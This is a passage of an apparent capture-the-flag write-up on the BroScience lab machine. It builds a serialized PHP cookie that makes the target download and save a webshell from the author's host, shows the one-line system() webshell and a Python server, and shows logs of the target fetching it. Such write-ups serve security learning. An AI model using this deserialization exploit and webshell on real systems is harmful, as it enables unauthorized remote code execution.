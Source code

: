 ```
    public $tmp;
    public $imgPath;

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$avatar_interface = new AvatarInterface();
$avatar_interface->tmp = "http://10.10.14.6/cmd.php";
$avatar_interface->imgPath = "./cmd.php";
$cookie = base64_encode(serialize($avatar_interface));
echo $cookie;
?>

```

Running this gives a cookie:

```

oxdf@hacky$ php serialized_rce_gen.php | base64 -d
O:15:"AvatarInterface":2:{s:3:"tmp";s:25:"http://10.10.14.6/cmd.php";s:7:"imgPath";s:9:"./cmd.php";}
oxdf@hacky$ php serialized_rce_gen.php 
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyNToiaHR0cDovLzEwLjEwLjE0LjYvY21kLnBocCI7czo3OiJpbWdQYXRoIjtzOjk6Ii4vY21kLnBocCI7fQ==

```

#### Exploit

I’ll make a simple webshell called `cmd.php` and host it on my webserver with Python:

```

oxdf@hacky$ cat cmd.php 
<?php system($_REQUEST['cmd']); ?>
oxdf@hacky$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

I’ll go into Firefox dev tools and replace my cookie with the malicious one, and refresh `https://broscience.htb`. There’s a connection at the webserver (actually three):

```
10.10.11.195 - - [30/Mar/2023 20:38:50] "GET /cmd.php HTTP/1.0" 200 -
10.10.11.195 - - [30/Mar/2023 20:38:50] "GET /cmd.php HTTP/1.0" 200 -
10.10.11.195 - - [30/Mar/2023 20:38:50] "GET /cmd.php HTTP/1.0" 200 -

```

And `/cmd.php` exists on the webserver, and it works:
